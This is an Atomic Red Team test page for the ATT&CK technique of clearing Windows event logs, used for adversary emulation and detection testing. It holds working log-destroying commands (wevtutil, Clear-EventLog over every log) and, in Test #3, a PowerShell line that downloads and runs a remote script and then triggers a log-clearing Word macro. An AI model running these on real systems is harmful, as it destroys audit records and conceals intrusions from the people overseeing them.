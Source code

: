 # T1070.001 - Indicator Removal on Host: Clear Windows Event Logs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1070/001)
<blockquote>

Adversaries may clear Windows Event Logs to hide the activity of an intrusion. Windows Event Logs are a record of a computer's alerts and notifications. There are three system-defined sources of events: System, Application, and Security, with five event types: Error, Warning, Information, Success Audit, and Failure Audit.


With administrator privileges, the event logs can be cleared with the following utility commands:

* <code>wevtutil cl system</code>
* <code>wevtutil cl application</code>
* <code>wevtutil cl security</code>

These logs may also be cleared through other mechanisms, such as the event viewer GUI or [PowerShell](https://attack.mitre.org/techniques/T1059/001). For example, adversaries may use the PowerShell command <code>Remove-EventLog -LogName Security</code> to delete the Security EventLog and after reboot, disable future logging.  Note: events may still be generated and logged in the .evtx file between the time the command is run and the reboot.(Citation: disable_win_evt_logging)

Adversaries may also attempt to clear logs by directly deleting the stored log files within `C:\Windows\System32\winevt\logs\`.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - Delete System Logs Using Clear-EventLog](#atomic-test-2---delete-system-logs-using-clear-eventlog)

- [Atomic Test #3 - Clear Event Logs via VBA](#atomic-test-3---clear-event-logs-via-vba)


<br/>

## Atomic Test #1 - Clear Logs
Upon execution this test will clear Windows Event Logs. Open the System.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty.

**Supported Platforms:** Windows


**auto_generated_guid:** e6abb60e-26b8-41da-8aae-0c35174b0967





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| log_name | Windows Log Name, ex System | string | System|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wevtutil cl #{log_name}
```






<br/>
<br/>

## Atomic Test #2 - Delete System Logs Using Clear-EventLog
Clear event logs using built-in PowerShell commands.
Upon successful execution, you should see the list of deleted event logs
Upon execution, open the Security.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty or has very few logs in it.

**Supported Platforms:** Windows


**auto_generated_guid:** b13e9306-3351-4b4b-a6e8-477358b0b498






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```






<br/>
<br/>

## Atomic Test #3 - Clear Event Logs via VBA
This module utilizes WMI via VBA to clear the Security and Backup eventlogs from the system. 

Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error

**Supported Platforms:** Windows


**auto_generated_guid:** 1b682d84-f075-4f93-9a89-8a8de19ffd6e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
